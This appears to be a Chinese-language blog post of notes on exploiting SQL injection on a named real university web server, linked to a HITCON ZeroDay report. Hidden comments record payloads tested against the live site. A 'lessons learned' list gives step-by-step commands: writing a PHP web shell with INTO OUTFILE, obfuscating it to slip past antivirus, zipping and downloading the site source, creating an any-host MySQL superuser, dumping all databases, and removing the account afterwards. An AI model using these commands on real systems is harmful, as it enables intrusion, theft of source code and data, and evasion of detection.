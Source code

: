 ```yaml
---
title: SQL Injection dce Success
description: SQL Injection dce Success
last_update:
  date: "2025-10-20T08:00:00+08:00"
---
```


## 前言

<!-- 1. 目標: https://w2.dce.tku.edu.tw/plugins/validationEngine/check_member_id.php?fieldValue=%27 -->

本文是 https://zeroday.hitcon.org/vulnerability/ZD-2025-01107 的延伸

<!-- ## 測試過程

1. `?fieldValue=%27`

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
[null,false]
```

2. `fieldValue=%27%20OR%20%271%27%20=%20%271`

```
[null,false]
```

3. `fieldValue=%27%20AND%20updatexml(null,concat(0x7e,version(),0x7e),null)%20AND%20%271%27%20=%20%271`

```
XPATH syntax error: '~10.1.31-MariaDB~'
[null,false]
```

好快，三次就成功用 Error-Based SQLi 提取到資料

接下來請參考 [ZD-2025-01107](https://zeroday.hitcon.org/vulnerability/ZD-2025-01107) -->

## 學到的東西

在本機模擬一個 Windows + XAMPP 的環境練習，避免影響到真實環境

1. 遞迴地列出目錄底下的副檔名分佈

```
powershell "Get-ChildItem C:\xampp\htdocs -Recurse | Group-Object Extension | Sort Count -Desc | Select Name,Count"
```

結果

```
Name                  Count
----                  -----
.jpg                  12053
.png                   6500
```

2. 遞迴地排除指定副檔名的檔案，並打包成 zip 寫入本機目錄

```
powershell "Get-ChildItem C:\xampp\htdocs -Recurse | Where {$_.Extension -notin '.jpg','.png','.gif','.svg','.pdf','.xls','.doc','.ttf','.js','.css','.less','.scss'} | Compress-Archive -Dest C:\xampp\htdocs\core.zip"
```

3. 將指定目錄底下的 .php 檔案打包成 zip 寫入本機目錄

```
powershell Compress-Archive -Path "C:\xampp\htdocs\*.php" -DestinationPath "C:\xampp\htdocs\php_files.zip"
```

4. 使用 curl 下載檔案

```
curl --output php_files.zip https://your.domain.com/php_files.zip -v
```

5. 尋找環境變數底下的執行檔: `where mysql`

6. Windows + XAMPP 的架構，可在 `C:\xampp\mysql\bin` 找到 `mysql.exe` 跟 `mysqldump.exe`

7. `SELECT user()` => `root@localhost`

8. `SELECT @@basedir` => `C:\xampp\mysql`

9. `SELECT @@datadir` => `C:\xampp\mysql\data`

10. UNION 搭配上傳檔案

```sql
UNION SELECT '<?php system($_GET["cmd"]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
UNION SELECT '<?php system($_GET[cmd]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
```

:::warning
UNION 前後的欄位數量還是得匹配，才會成功執行
:::

11. 一般的防毒軟體都可以偵測到上面兩種 php 檔案（會被歸類到惡意程式），所以可以加一些垃圾程式碼跟註解來混淆

```php
<?php $host = "localhost"; $username = "root"; system($_GET["cmd"]); ?>
```

12. 也可以用 `<?php echo exec($_GET[cmd]);?>`

13. 直接用 CMD 新增 MySQL 使用者

```
C:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "CREATE USER 'tempdump'@'%' IDENTIFIED BY 'temp_password'; GRANT ALL ON *.* TO 'tempdump'@'%'; FLUSH PRIVILEGES;"
```

- 要記得 -p 後面不能有空格，這樣才不會跳出輸入框
- `-e "SQL Syntax Here; Other SQL Syntax Here;"`
- `'tempdump'@'%'` => `'username'@'hostname'` => 允許該使用者透過任何主機進行連線
- `GRANT ALL ON *.*` => `database.table` => 允許所有 database 底下的所有 table

14. 使用 mysqldump 匯出所有 databases 的資料 as .sql 檔案

```
C:\xampp\mysql\bin\mysqldump.exe -u tempdump -p"temp_password" --all-databases > C:\xampp\htdocs\alldb.sql
```

15. 刪除臨時帳號

```
C:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "DROP USER 'tempdump'@'%'; FLUSH PRIVILEGES;"
```

16. CMD 的 ls

- `dir`
- `dir C:\xampp`

17. CMD 的 rm

- `del file.php`
- `del C:\xampp\htdocs\file.php`

18. CMD 的 cat

- `type file.php`
- `type C:\xampp\htdocs\file.php`

19. powershell 感覺必學，功能太強大了

20. CMD 的指令 `systeminfo`

21. CMD 的指令 `ipconfig /all`

22. CMD 的指令 `arp -a` (Address Resolution Protocol)

```
介面: xxx.yy.zzz.40 --- 0x6
  網際網路網址          實體位址               類型
  xxx.yy.zzz.6          aa-bb-cc-dd-ee-ff     動態
  xxx.yy.zzz.8          bb-cc-dd-ee-ff-aa     動態
```
